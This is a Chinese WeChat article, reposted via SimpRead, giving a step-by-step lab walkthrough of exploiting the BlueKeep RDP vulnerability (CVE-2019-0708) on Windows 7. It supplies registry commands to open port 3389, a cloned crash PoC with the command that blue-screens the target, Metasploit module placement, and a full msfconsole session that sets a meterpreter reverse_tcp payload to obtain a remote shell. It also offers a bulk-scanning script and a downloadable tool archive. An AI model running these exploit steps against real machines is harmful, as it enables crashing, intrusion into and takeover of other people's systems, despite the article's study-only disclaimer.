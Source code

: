 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/7a8uipxzl59ESxY8v59WYQ)

01 漏洞详情

Windows 系列服务器于 2019 年 5 月 15 号，被爆出高危漏洞，该漏洞影响范围较广，漏洞利用方式是通过远程桌面端口 3389，RDP 协议进行攻击的。这个漏洞是今年来说危害严重性最大的漏洞，跟之前的勒索，永恒之蓝病毒差不多。

影

响

范

围

影响系统：windows2003、windows2008、windows2008 R2、windows xp 、win7

危害请见下文![](https://mmbiz.qpic.cn/mmbiz_png/96Koibz2dODuBXXWPJglS3J7Q17icYIKOzV0kW2EEccYhV3rG77MY9dlJ42ucv7DBJOvIVaB3lzBNu6KicLVDtrVQ/640?wx_fmt=png)

02 工具分享

链接：https://pan.baidu.com/s/1NeaYWuIFoRs0xCHW4S_ntw

提取码：n3zm 

![](https://mmbiz.qpic.cn/mmbiz_png/96Koibz2dODuBXXWPJglS3J7Q17icYIKOzZgpQhPy4h2iaSiane8CsUdBObY1xPvf1MSLL4cRw49Q0mlCAofrvA68w/640?wx_fmt=png)

环境

**攻击机**：kali IP: 10.1.8.167

**靶机**： win7 IP:10.1.8.8（开放 3389 端口）

**Win7** **靶机****开启和关闭 3389 端口**

（1）开启 3389 端口：

在 cmd 内，执行如下命令，即可开启 3389 端口。

```
REG ADD HKLM\SYSTEM\CurrentControlSet\Control\Terminal" "Server /v fDenyTSConnections /t REG_DWORD /d 00000000 /f
```

（2）关闭 3389 端口：

在 cmd 内，执行如下命令，即可关闭 3389 端口。

```
REG ADD HKLM\SYSTEM\CurrentControlSet\Control\Terminal" "Server /v fDenyTSConnections /t REG_DWORD /d 11111111 /f
```

![](https://mmbiz.qpic.cn/mmbiz_png/96Koibz2dODuBXXWPJglS3J7Q17icYIKOz1voFFJer9tuvepAsibLq0mwzSMHGicb0ic90nvqcIlYhpffTmla5tx2kQ/640?wx_fmt=png)

03 蓝屏

使用 nmap 对靶机进行扫描：

![](https://mmbiz.qpic.cn/mmbiz_png/96Koibz2dODuBXXWPJglS3J7Q17icYIKOzJjqfPkEKpfwMk6u53ABLljoTn4CBK3l56rKabCBJqur2jiadVc5bzTg/640?wx_fmt=png)

使用漏洞 POC 进行测试：

**POC**：https://github.com/n1xbyte/CVE-2019-0708

**用法：python3 crashpoc.py ip 地址 系统类型**

```
git clone https://github.com/n1xbyte/CVE-2019-0708.git
python3 crashpoc.py 10.1.8.8  64
```

![](https://mmbiz.qpic.cn/mmbiz_png/96Koibz2dODuBXXWPJglS3J7Q17icYIKOzP04dldmPcxPeqLu82SLJ3r8eHxPRlxAJSkReC6A4VE3UsFib83wBTJQ/640?wx_fmt=png)

靶机已蓝屏：

![](https://mmbiz.qpic.cn/mmbiz_png/96Koibz2dODuBXXWPJglS3J7Q17icYIKOzRcOIQBbqXCvxSu8Q1h3z146I0iceMVLOIeRIeemyCZenqYibhes4p5vA/640?wx_fmt=png)

04 反弹 shell

**https://github.com/biggerwing/CVE-2019-0708-poc**

. 配置 msf，将 exp 放置到 msf 对应文件夹下，如果同名直接覆盖（这里以 kali 为例）

![](https://mmbiz.qpic.cn/mmbiz_png/96Koibz2dODuBXXWPJglS3J7Q17icYIKOzCLN4cGrE4LFbruSRXwkdau7ZslBicK8iburSbPVxsiconflNmfMl4Ssiag/640?wx_fmt=png)

**将相应的** **E****XP 放到** **k****aili 里面相应的位置****，若是相同文件名就替换，若是不存在的文件就创建。**

```
rdp.rb -> /usr/share/metasploit-framework/lib/msf/core/exploit/rdp.rd
rdp_scanner.rb->/usr/share/Metasploit-framework/modules/auxiliary/scanner/rdp/rdp_scanner.rb
cve_2019_0708_bluekeep.rb->/usr/share/metasploit-framework/modules/auxiliary/scanner/rdp/cve_2019_0708_bluekeep.rb
cve_2019_0708_bluekeep_rce.rb->/usr/share/Metasploit-framework/modules/exploits/windows/rdp/cve_2019_0708_bluekeep_rce.rb
```

然后在命令行下执行：

```
root@kali:~# msfconsole
msf5 > reload_all # 加载0708exp
msf5 > use exploit/windows/rdp/cve_2019_0708_bluekeep_rce
msf5 exploit(windows/rdp/cve_2019_0708_bluekeep_rce) > set rhosts 10.1.8.8
msf5 exploit(windows/rdp/cve_2019_0708_bluekeep_rce) > set payload windows/x64/meterpreter/reverse_tcp
msf5 exploit(windows/rdp/cve_2019_0708_bluekeep_rce) >show targets
msf5 exploit(windows/rdp/cve_2019_0708_bluekeep_rce) > set target 3
msf5 exploit(windows/rdp/cve_2019_0708_bluekeep_rce) >set LHOST 10.1.8.167  
msf5 exploit(windows/rdp/cve_2019_0708_bluekeep_rce) >set LPORT 1234
msf5 exploit(windows/rdp/cve_2019_0708_bluekeep_rce) >show options
msf5 exploit(windows/rdp/cve_2019_0708_bluekeep_rce) > exploit
```

![](https://mmbiz.qpic.cn/mmbiz_png/96Koibz2dODuBXXWPJglS3J7Q17icYIKOzNYZJTMvLc0nNs8jngRduYt3GucOahFz7xtpJ6IJ0sYJaLz377Wx4LQ/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/96Koibz2dODuBXXWPJglS3J7Q17icYIKOzGA4QCYQ6nthGLciahavvXzeXgiaQpIkC5S5ZticrDrCzABz5aCF2ia60Bw/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/96Koibz2dODuBXXWPJglS3J7Q17icYIKOzIOTHYRiafFBE8VvzpYf8nF4GTAyJmycSZNpicQJfiblYTgSCybdfz8Ozw/640?wx_fmt=png)

注意事项

![](https://mmbiz.qpic.cn/mmbiz_png/96Koibz2dODuBXXWPJglS3J7Q17icYIKOzeO9XDDJW111bqcJdpuAYib7NgOZGZwLQvPhnD9KIkjibM98QOmHUN0lg/640?wx_fmt=png)

Target 要选对；  

如果没有反弹回来可以尝试换一下监听反弹的端口。

05 批量检测

这里参考的是 https://github.com/biggerwing/CVE-2019-0708-poc，为了方便，我在原来基础上加了个将成功的结果保存在单独文件的功能。

  

**Windows python3 环境**

**用****法：**

1. 编辑 3389_hosts，将待检测的 IP 地址写入文件，一行一个

2. 命令行切换到代码所在的目录，运行 python3 cve-2019-0708.py 

![](https://mmbiz.qpic.cn/mmbiz_png/96Koibz2dODuBXXWPJglS3J7Q17icYIKOzAibQ8wmjbnicDUoAhZNV2s4mdYCLVlAKJR9y7amauiaAXVgicDeXahEQHw/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/96Koibz2dODuBXXWPJglS3J7Q17icYIKOzPibdJjJ0drWCMrlSZwpe3VsS3Etwgocetc21C2ia9vAVqQvCXI7TUGRQ/640?wx_fmt=png)

  

  

![](https://mmbiz.qpic.cn/mmbiz_png/96Koibz2dODsGoxEE3kouByPbyxDTzYIgX0gMz5ic70ZMzTSNL2TudeJpEAtmtAdGg9J53w4RUKGc34zEyiboMGWw/640?wx_fmt=png)

END

![](https://mmbiz.qpic.cn/mmbiz_png/96Koibz2dODsGoxEE3kouByPbyxDTzYIgX0gMz5ic70ZMzTSNL2TudeJpEAtmtAdGg9J53w4RUKGc34zEyiboMGWw/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_gif/96Koibz2dODtIZ5VYusLbEoY8iaTjibTWg6AKjAQiahf2fctN4PSdYm2O1Hibr56ia39iaJcxBoe04t4nlYyOmRvCr56Q/640?wx_fmt=gif)

**看完记得点赞，关注哟，爱您！**

**请严格遵守网络安全法相关条例！此分享主要用于学习，切勿走上违法犯罪的不归路，一切后果自付！**

  

关注此公众号，各种福利领不停，轻轻松松学习 hacker 技术！

  

**在看你就赞赞我！**

![](https://mmbiz.qpic.cn/mmbiz_gif/96Koibz2dODtaCxgwMT2m4uYpJ3ibeMgbThXaInFkmyjOOcBoNCXGun5icNbT4mjCjcREA3nMN7G8icS0IKM3ebuLA/640?wx_fmt=gif)

![](https://mmbiz.qpic.cn/mmbiz_png/96Koibz2dODtaCxgwMT2m4uYpJ3ibeMgbTkwLkofibxKKjhEu7Rx8u1P8sibicPkzKmkjjvddDg8vDYxLibe143CwHAw/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/96Koibz2dODvmiaOTvCLgk6nNRkiaWEOnrYYzicu94ATK3u3IjictJBNWn2SFnYsEtNvHQFrcKExdhG7kOJicflj72iag/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_gif/96Koibz2dODtaCxgwMT2m4uYpJ3ibeMgbTicALFtE3HLbUiamP3IAdeINR1a84qnmro82ZKh4lpl5cHumDfzCE3P8w/640?wx_fmt=gif)

扫码关注我们

![](https://mmbiz.qpic.cn/mmbiz_gif/96Koibz2dODtaCxgwMT2m4uYpJ3ibeMgbTicALFtE3HLbUiamP3IAdeINR1a84qnmro82ZKh4lpl5cHumDfzCE3P8w/640?wx_fmt=gif)

扫码领 hacker 资料，常用工具，以及各种福利

![](https://mmbiz.qpic.cn/mmbiz_gif/96Koibz2dODtaCxgwMT2m4uYpJ3ibeMgbTnHS31hY5p9FJS6gMfNZcSH2TibPUmiam6ajGW3l43pb0ySLc1FibHmicibw/640?wx_fmt=gif)

转载是一种动力 分享是一种美德